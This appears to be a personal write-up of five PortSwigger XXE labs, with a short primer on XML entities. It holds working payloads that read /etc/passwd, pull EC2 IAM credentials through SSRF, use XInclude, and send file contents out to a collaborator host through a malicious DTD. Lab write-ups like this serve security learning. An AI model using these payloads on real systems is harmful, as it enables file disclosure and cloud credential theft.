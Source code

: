 ### XML-INJECTION (Portswigger labs)


### <u>Meaning of XML injection </u>
   XML means extensible markup language.It is a form of language designed for storing data and transporting data.It uses a tree-like structure for data storage.
It does not use predefined tags like html.Data can be given to describe the data.Xml applies important elements like xml entities,xml elements and
document type definition(DTD).The document type definition allows custom entities to declared within the declaration.There are two forms of custom entity.
- Custom Entities
- Custom External Entities
### Custom entities
For example

     <!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
The value "my entity value" can be called with &myentity;
### Custom External entities
  External entities will lead us to the first portswigger challenge.This form of custom entities is declared outside the declaration.The example given below uses the keyword SYSTEM which requires a value in url format e.g file:/// url wrapper to load custom external entities.
For example

     <!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
The file url can be used to read files like /etc/passwd etc

### Challenge 1

Challenge description: Read /etc/passwd by  exploiting XXE(XML External Entity)

![2023-10-18_14-29](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ab0f3280-ed81-4eb6-9059-916666c14bc2)

- I explored the site functionalities and I noticed that the site requests data was xml based.

  ![2023-10-18_20-56](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8a1000e6-653c-4296-b08e-7770d7d49c9d)

- I intercepted the check stock request with burpsuite and sent it to the repeater

![2023-10-18_20-59](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4d1cc80c-59a1-4b81-9f77-089634fb91fe)

- To read the file "/etc/passwd", I used this payload from hacktrickz.com

       <?xml version="1.0" encoding="UTF-8"?>
       <!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
        <stockCheck><productId>
         &example;
        </productId><storeId>1</storeId></stockCheck>
    
- And I got this a response from the server showing the contents of the /etc/passwd file
  
![2023-10-18_21-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6252eb19-98b1-4895-8fc0-1585b75c71ea)

- I right clicked on the repeater and showed response in browser and that was how I solved the first challenge

![2023-10-18_21-18](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e722aebe-a491-472b-8447-c14e3e14bf20)

### Challenge 2

Challenge description: Exploiting XXE to get SSRF attacks

![2023-10-18_21-25](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d805517a-8684-402e-b21d-ee368336884e)

- From the challenge description,It was stated that the "check stock" feature parses xml input.I intercepted the the request

![2023-10-18_21-33](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3b38d8ca-55f9-4e6c-9bb3-cbba95a42e38)

- I used this payload to get the secret token of the Amazon Ec2 metadata instance

       <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY example SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
      <stockCheck><productId>&example;</productId><storeId>1</storeId></stockCheck>

- I got this response

![2023-10-18_21-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6dda8f15-06c7-42f5-a078-ef7a4ce4521d)

- Challenge solved

![2023-10-18_21-50](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/208c1e52-9adc-409d-a780-9b080b868849)

### Challenge3
Challenge description: Exploit Xinclude to retrieve file /etc/passwd

![2023-10-18_22-04](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6cdf1414-094c-48d2-a538-7626255a7b97)

- I sent the check stock feature request to the repeater,I noticed that it was not in xml format but just plain POST data

![2023-10-18_22-21](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9c09b928-c8d3-47f6-aba5-73f661da373e)

- I pasted this payload as the value of  the productID parameter

      <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/></foo>
  
- And I was able to read the contents of file /etc/passwd 

![2023-10-18_22-26](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8ca0c654-f7c7-4c90-9b23-f01e5e45dd7c)

### Challenge 4

Challenge description: Blind XXE by out-of-band interaction(Making a request to burp collaborator with XXE)

![2023-10-18_22-43](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/813ccb79-d43c-4f49-ad45-76e2d09ebb95)

- I fired up burp's collaboarator and copied the link


![2023-10-18_22-44](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4a52c176-b314-4c5d-96a9-2e5228e1d970)

- I used this payload

      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://5z5ifxf7c0kn64v7atwvdyhsbjha54tt.oastify.com"> ]>
      <stockCheck><productId>
      &xxe;</productId><storeId>1</storeId></stockCheck>
  
- Then I sent this payload to the server
    
![2023-10-18_22-52](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c0245328-7d0f-40fe-b614-a887d7a78dfa)

- I noticed that a request has been made to burp collaborator,Challenge solved

![2023-10-18_22-55](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/211832e4-b1e8-42f3-966a-c410ba2c0ebc)

### Challenge 5

Challenge's description: Exploiting blind XXE to exfiltrate data with malicious DTD

![2023-10-21_15-38](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b8327cf3-da92-4ad9-b4a1-c2b310b22875)

- The main goal of the challenge was to use the malicious DTD to exfiltrate the /etc/hostname file
- Portswigger provided an exploit server to host the malicious DTD

![2023-10-21_16-01](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8908e0e8-28fc-4e1f-b302-e2bd224b0f84)

- After intercepting the check stock request,I noticed that regular entities are not allowed.

   ![2023-10-21_16-06](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/abeae0b5-ad52-4871-b45f-6330f11c42ba)

- You can bypass it by using parameter entities.A parameter entity is not like a regular entity because it can be called within the dtd and not within the xml tags.e.g

      <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///etc/hostname" >] %xxe;>
- I hosted this payload on the portswigger exploit server to read the file "/etc/hostname" and also send the contents of the file to burp collaborator server

       <!ENTITY % file SYSTEM "file:///etc/hostname">
       <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM '<burp collaborator link>/?x=%file;'>">
       %eval;
       %exfiltrate;
- In burp repeater,I sent an xml request to induce the server to load the url hosted on Portswigger exploit server containing our malicious DTD file
  ![2023-10-21_16-22](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c144d8e1-762c-465f-b57b-0e29e0090fe4)

- Then,I received this token through burp collaborator server.

![2023-10-21_17-02](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/98f96dbb-91ac-4468-8885-cb4c53bbf5d3)

- I submitted the token and solved the challenge.

![2023-10-21_17-00](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/bedca5f4-4116-4f43-926e-ec874ca7cd9b)

